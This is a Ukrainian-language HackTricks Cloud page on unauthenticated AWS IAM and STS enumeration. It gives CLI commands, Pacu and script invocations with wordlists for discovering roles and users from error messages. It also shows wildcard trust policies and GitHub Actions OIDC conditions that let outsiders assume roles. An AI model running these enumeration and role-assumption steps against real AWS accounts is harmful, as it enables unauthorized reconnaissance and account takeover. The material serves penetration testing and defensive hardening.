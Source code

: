# AWS - IAM & STS Неаутентифіковане перерахування

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію в рекламі на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>

## Перерахування ролей та імен користувачів в обліковому записі

### ~~Перебір ролей~~

{% hint style="danger" %}
**Ця техніка більше не працює**, оскільки незалежно від того, чи існує роль, ви завжди отримуєте цю помилку:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Ви можете **перевірити це, запустивши**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Спроба **припустити роль без необхідних дозволів** спричиняє повідомлення про помилку AWS. Наприклад, якщо не авторизовано, AWS може повернути:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Це повідомлення підтверджує існування ролі, але вказує, що політика assume role не дозволяє ваше припущення. Навпаки, спроба **припустити неіснуючу роль призводить до іншої помилки**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Цей метод **розрізнення між існуючими та неіснуючими ролями** застосовний навіть для різних облікових записів AWS. За допомогою дійсного ідентифікатора облікового запису AWS та цільового словника можна перелічити ролі, присутні в обліковому записі, не зіткнувшись з жодними вбудованими обмеженнями.

Ви можете використовувати цей [скрипт для переліку потенційних суб'єктів](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum), використовуючи цю проблему.

### Політика довіри: перебір ролей та користувачів між обліковими записами

Налаштування або оновлення **політики довіри IAM-ролі передбачає визначення, які ресурси або служби AWS мають право припускати цю роль** та отримувати тимчасові облікові дані. Якщо вказаний ресурс у політиці **існує**, політика довіри зберігається **успішно**. Однак, якщо ресурс **не існує**, генерується **помилка**, що вказує на те, що було надано недійсного суб'єкта.

{% hint style="warning" %}
Зверніть увагу, що в цьому ресурсі можна вказати роль або користувача між обліковими записами:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Ось приклад політики:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Це **помилка**, яку ви знайдете, якщо використовуєте **роль, якої не існує**. Якщо роль **існує**, політика буде **збережена** без будь-яких помилок. (Помилка виникає при оновленні, але також працює при створенні)

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Ви можете автоматизувати цей процес за допомогою [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Наш використання [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Роль `admin`, використана в прикладі, є **роллю у вашому обліковому записі, яку можна імітувати** за допомогою pacu для створення необхідних політик для переліку

### Підвищення привілеїв

У випадку, якщо роль погано налаштована і дозволяє будь-кому її припускати:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Атакувальник може просто припустити це.

## Федерація OIDC стороннього постачальника

Уявіть, що вам вдалося прочитати **робочий процес Github Actions**, який отримує доступ до **ролі** всередині **AWS**.\
Це довіра може надати доступ до ролі з наступною **політикою довіри**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Ця політика довіри може бути правильною, але **відсутність додаткових умов** повинна викликати у вас недовіру.\
Це тому, що попередню роль може припустити **БУДЬ-ХТО з Github Actions**! Вам слід також вказати в умовах інші речі, такі як назва організації, назва репозиторію, середовище, гілка...

Ще одна потенційна помилкова конфігурація - **додати умову** наступного виду:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Зверніть увагу на **джокер** (\*) перед **двокрапкою** (:). Ви можете створити організацію, таку як **org\_name1**, і **припустити роль** з Github Action.

## Посилання

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити свою **компанію в рекламі на HackTricks** або **завантажити HackTricks у PDF** Перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв.

</details>
